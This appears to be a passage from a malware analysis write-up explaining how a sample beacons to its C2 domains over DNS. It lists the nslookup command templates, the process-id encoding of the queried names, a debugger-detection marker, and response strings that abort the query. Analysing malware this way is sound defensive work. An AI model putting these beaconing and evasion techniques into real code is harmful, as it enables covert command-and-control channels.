 The malware loops through the C2 domains and send a DNS query to each one of them, it first flushes the DNS cache with the command:

```
ipconfig /flushdns
```

Then is sends the DNS request, it has three types of requests:

```
normal request:       nslookup.exe -q={DNS_quest_type} {id}.{domain_name}
ac mode is enables:   nslookup.exe -timeout=5 -q={DNS_quest_type} {id}.ac.{domain_name}
debugger is attached: nslookup.exe -timeout=5 -q={DNS_quest_type} 676f6f646c75636b.ac.{domain_name}
```

Interestingly enough, if we decode `676f6f646c75636b` we get the value `goodluck`, the malware author is trying to be funny with the analyst :)

```
DNS query types:
    MX
    TXT
    A
    AAAA
```

The request id is generated by calling `GetCurrentProcess()` then transforming the process id to a string with these replacements:

```
0 --> h
1 --> i
2 --> j
3 --> k
4 --> l
5 --> m
6 --> n
7 --> o
8 --> p
9 --> q
```

In this case, the process id was `3206` which translates to `kjnh`, the id is prefixed with the `request_type` which is either `a,b,c or d`, the `comm_model` is appended to the end of the id which is just the letter 'c'.

Example of the connections:

[![6](/home/night-wolf/Pictures/6.png)](/home/night-wolf/Pictures/6.png)

- If the response contains any of these strings, the query function returns "cancel":

```
216.58.192.174
2a00:1450:4001:81a::200e
2200::
download.microsoft.com
ntservicepack.microsoft.com
windowsupdate.microsoft.com
update.microsoft.com
```
